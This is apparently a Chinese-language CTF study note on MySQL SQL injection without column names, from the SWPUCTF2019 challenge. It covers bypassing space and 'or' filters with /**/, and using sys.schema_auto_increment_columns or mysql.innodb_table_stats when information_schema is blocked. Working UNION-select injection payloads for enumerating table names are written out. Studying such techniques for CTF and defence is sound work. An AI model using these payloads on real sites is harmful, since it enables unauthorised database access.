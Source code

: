 



## 无列名注入例子

### SWPUCTF2019

参考：[个人博客1知识点及wp](http://www.pdsdt.lovepdsdt.com/index.php/2019/12/12/mysql/)、[个人博客2，wp更详细](https://www.cnblogs.com/wangtanzhi/p/12241499.html) 、 [information_schema外的思考](https://www.anquanke.com/post/id/193512)

==要点: information_schema被过滤，无列名注入==

#### 知识点：

1. **空格和or被过滤，我们使用注释符号来代替空格**`/**/`

2. or被过滤，我们无法使用order by及information_schema进行数据查询，我们可以使用sys数据库进行数据查询，**使用sys数据库需要满足：**

>     1.数据库版本大于等于5.7  //version()
>     2.数据库用户为root@localohost用户  //user()  【管理员身份】

3. ==！！==information_schema外，以下都可以查询表名信息【**但查询不到列名，查询列名要用无列名注入**】 [参考1](http://www.tristan.top/2020/04/22/Sql%E6%B3%A8%E5%85%A5%E4%B9%8B%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5/)

   ```
   sys.schema_auto_increment_columns  //有自增id
   sys.schema_table_statistics_with_buffer //无自增id
   mysql.innodb_table_stats  //一般关闭
   
   
   //获取当前库里的表名
   ?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+
   ?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
   ```

   

<img src="https://img2018.cnblogs.com/blog/1625650/202001/1625650-20200129212640240-1882833743.png" alt="innodb" style="zoom:67%;" />



![2](https://img2018.cnblogs.com/blog/1625650/202001/1625650-20200129212521529-1650453614.png)





查询表名：

```mysql
//用sys.schema_auto_increment_columns
11'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_colum ns/**/where/**/table_schema=schema()),user(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'

//或者mysql.innodb_table_stats
id=-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'1
```
